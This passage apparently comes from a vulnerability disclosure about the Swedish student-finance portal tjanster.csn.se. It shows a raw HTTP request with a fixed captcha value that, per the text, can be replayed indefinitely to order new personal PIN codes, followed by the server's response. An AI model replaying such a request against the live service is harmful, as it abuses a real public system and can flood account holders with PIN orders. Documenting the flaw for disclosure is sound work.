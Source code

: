 Here is the new HTTP request that can be repeated indefinitely to generate new
PINs:

```
POST /bas/ekund/personligKodAction.do HTTP/1.1
Host: tjanster.csn.se
Connection: close
Content-Length: 78
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://tjanster.csn.se
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://tjanster.csn.se/bas/ekund/personligKodAction.do
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=<REDACTED>; testcookie=true; _ga=GA<REDACTED>; _gid=GA<REDACTED>; valdgruppmenyCookie=personligt; WT_FPC=id=<REDACTED>:lv=<REDACTED>:ss=<REDACTED>

send=E&metod%231*robotsparr=&inmatadCaptcha=13635&metod%231*utskicksSatt=Order
```

HTTP response to the above request:

```
HTTP/1.1 302 Found
Date: Sun, 15 Nov 2020 22:21:17 GMT
Server: Apache
X-Powered-By: Servlet/3.0
Location: https://tjanster.csn.se/bas/ekund/personligKodAction.do?metod=redirect&forward=layout.gemensamma.texter&textId=tjanst.bestallapersonligKod.e-post
Content-Length: 0
Set-Cookie: ADRUM_BTa=R:55|g:<REDACTED; Expires=Sun, 15-Nov-20 22:21:47 GMT; Path=/; Secure
Set-Cookie: ADRUM_BTa=R:55|g:<REDACTED>|n:customer1_<REDACTED>; Expires=Sun, 15-Nov-20 22:21:47 GMT; Path=/; Secure
Set-Cookie: SameSite=None; Expires=Sun, 15-Nov-20 22:21:47 GMT; Path=/; Secure
Set-Cookie: ADRUM_BT1=R:55|i:<REDACTED>; Expires=Sun, 15-Nov-20 22:21:47 GMT; Path=/; Secure
Set-Cookie: ADRUM_BT1=R:55|i:<REDACTED>|e:<REDACTED>; Expires=Sun, 15-Nov-20 22:21:47 GMT; Path=/; Secure
Set-Cookie: ADRUM_BT1=R:55|i:<REDACTED>|e:<REDACTED>|d:<REDACTED>; Expires=Sun, 15-Nov-20 22:21:47 GMT; Path=/; Secure
Expires: Thu, 01 Dec 1994 16:00:00 GMT
Cache-Control: no-cache="set-cookie, set-cookie2"
Connection: close
Content-Type: text/html
Content-Language: sv-SE


```
